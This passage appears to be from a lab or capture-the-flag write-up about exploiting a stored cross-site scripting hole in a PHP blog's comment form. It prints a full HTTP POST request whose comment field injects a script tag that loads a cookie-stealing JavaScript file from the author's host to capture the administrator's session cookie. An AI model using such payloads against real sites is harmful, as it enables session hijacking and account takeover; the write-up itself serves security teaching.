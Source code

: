 ![](/assets/img/content/0d25d544740940f69addac7579a96e0e.png)
*Analysis of the render_with_comments() function*

The `get_comments()` function simply requests the `comments` table for its data, given a post identifier, and returns it back to the user. The only validation in place is in the `post_id` parameter that checks if the input is an integer. No other validation is in place to prevent Cross-Site Scripting.

![](/assets/img/content/a08fd1817a1c4280b955cd51eb669977.png)
*Analysis of the get_comments() function*

Since my goal was to get administrative access to the application, I injected a simple script tag that would load an external Javascript file from my server, with the purpose stealing the administrator cookie.

```
POST /post_comment.php?id=1 HTTP/1.1
Host: 192.168.56.118
Content-Type: application/x-www-form-urlencoded
Content-Length: 295
Connection: close

title=test&author=test&text=%3Cscript+src%3D%22http%3A%2F%2F192.168.56.1%2Fcookie-stealer.js%22%3E%3C%2Fscript%3E&submit=Submit+Query
```

The `cookie-stealer.js` file purpose is, like the name suggests, to steal the current user session cookie, when he/she accesses the webpage with the malicious comment.

![](/assets/img/content/2a45b52e43bf47ef9672153798df4482.png)
*Javascript cookie stealer*
